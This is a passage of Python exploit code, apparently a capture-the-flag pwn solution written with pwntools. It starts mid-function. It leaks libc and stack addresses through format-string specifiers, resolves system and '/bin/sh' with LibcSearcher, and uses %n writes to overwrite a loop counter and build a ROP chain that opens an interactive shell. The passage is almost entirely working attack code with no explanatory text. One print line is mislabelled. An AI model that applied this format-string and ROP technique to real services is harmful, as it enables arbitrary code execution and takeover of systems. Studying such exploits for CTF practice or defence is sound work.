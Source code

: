 ```
		payload = "%"+str(target)+"c%12$ln"
	elif size == 4:
		payload = "%"+str(target)+"c%12$n"
	payload += "a"*(24-len(payload)-8)
	payload = flat([payload, p64(addr)])
	p.send(payload)
	p.recvuntil("Username:\n")

#gdb.attach(p, "break *$rebase(0x120B)")

p.recvuntil("Username:\n")
p.send("%19$p"+"#"*18)
content = p.recvuntil("Username:\n", drop=True).split(b"\n")
content = content[1].split(b"#")[0]
libc_start_main_ret = int(content, 16)

libc = LibcSearcher("__libc_start_main_ret", libc_start_main_ret)
libc.select_libc(1)
libc_base = libc_start_main_ret - libc.dump("__libc_start_main_ret")
system_addr = libc_base + libc.dump("system")
bin_sh = libc_base + libc.dump("str_bin_sh")

print("base:", hex(system_addr))
print("system:", hex(system_addr))

p.send("%14$p"+"#"*18)
content = p.recvuntil("Username:\n", drop=True).split(b"\n")
content = content[1].split(b"#")[0]
main_rbp_addr = int(content, 16)
cnt_addr = main_rbp_addr - 4
print("counter addr:", hex(cnt_addr))
print("main_frame rbp addr:", hex(main_rbp_addr))

p.send("%15$p"+"#"*18)
content = p.recvuntil("Username:\n", drop=True).split(b"\n")
content = content[1].split(b"#")[0]
gadget_addr  = int(content, 16) + 127
print("gadget addr:", hex(gadget_addr))

# set counter to 0
fmt_write(cnt_addr, 0, 4)

# ROP
fmt_seg_write(main_rbp_addr + 8, gadget_addr)
p.recvuntil("Username:\n")
fmt_write(cnt_addr, 0, 4)

fmt_seg_write(main_rbp_addr + 16, bin_sh)
p.recvuntil("Username:\n")

fmt_seg_write(main_rbp_addr + 24, system_addr)

p.interactive()
```

